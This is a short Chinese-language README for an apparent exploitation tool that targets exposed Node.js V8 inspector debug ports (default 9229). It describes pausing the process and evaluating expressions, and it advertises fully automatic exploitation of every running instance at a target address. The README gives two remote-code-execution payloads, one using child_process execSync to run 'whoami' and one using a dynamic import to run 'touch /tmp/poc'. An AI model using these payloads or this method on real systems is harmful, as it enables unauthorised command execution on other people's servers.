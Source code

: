 # py-nodev8-tool
node.js v8 inspect的利用工具

调试端口默认为9229，使用websocket协议。

工具可以pause并执行表达式。

因为node同时支持cjs和mjs，分别使用require和import来导入库，工具自动pause不确定会暂停在那种代码环境下，所以可以都尝试一下，如果失败多尝试几次：
```js
// cjs
require('child_process').execSync('whoami').toString()        // 有回显

// mjs
import('child_process').then(({exec}) => {exec('touch /tmp/poc')}).catch((error) => {console.log(error)})        // 无回显
```

python脚本能自动获取指定地址所有正在运行的实例，可以全自动利用。而js版本能在chrome中执行但因为同源策略无法获取指定地址所有正在运行的实例，只能半自动。